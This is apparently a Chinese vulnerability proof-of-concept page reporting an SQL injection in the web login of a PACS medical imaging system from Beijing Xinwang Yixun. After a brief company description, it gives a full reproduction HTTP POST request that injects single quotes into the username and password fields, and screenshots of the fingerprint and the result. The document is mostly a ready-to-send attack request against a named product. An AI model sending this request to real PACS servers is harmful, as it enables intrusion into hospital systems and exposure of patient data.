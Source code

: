 # 北京新网医讯技术有限公司PACS系统web端存在SQL注入漏洞

# 一、漏洞简介
北京新网医讯技术有限公司，公司成立于2000年3月，注册于北京中关村科技园，为国家高新技术企业和中关村高新技术企业（简称为“双高企业”），公司作为软件企业，成为北京软件和信息服务业协会会员。公司专业从事PACS(图像存储与传输系统)和RIS（放射科信息管理系统）的研究、开发工作。北京新网医讯技术有限公司PACS系统web端存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 北京新网医讯技术有限公司PACS系统web端

# 三、特征
![1700663401409-b03afed9-8f5b-4c03-8028-d8bfbc1528cd.png](./img/DB_HHURFak5A5lyG/1700663401409-b03afed9-8f5b-4c03-8028-d8bfbc1528cd-580884.png)

# 四、漏洞复现
```plain
POST / HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 448
Connection: close
Upgrade-Insecure-Requests: 1

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=aIvFnTxaMev%2BMuIasFWPO9198V98WVrTouBNTXTfDdlwXSECHrd5D4RQ6ge5pTRoYihFHyOQ1PfpTf5vaxEjyLRsSb73HPQsKfEOglWjAGo%3D&__EVENTVALIDATION=71o1HhunkN1yKTj5EmZeDoRkcgp5eEkODmWMf4usLX6jNBDWUPDiJBL7MyjboG6J9tKBMrpLafBCb7uKUMvQf5D5fJaarcxn0qfuG00MPr%2FuQJ4dDvXykErSvcEapjM99c2NwAq2u065oiyocPT%2FS%2BV%2BfU0lhZSlV5wDem2SrRLB38wmsXsy5dcVI8zEXxxy&TextName=admin'&TextPwd=admin'&BtnLogin=%E7%99%BB%E5%BD%95
```

![1700663680647-0bf946ca-4a2b-4008-af2e-1f668a183750.png](./img/DB_HHURFak5A5lyG/1700663680647-0bf946ca-4a2b-4008-af2e-1f668a183750-414790.png)



> 更新: 2024-04-16 19:35:04  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hifk5gfkmueb2136>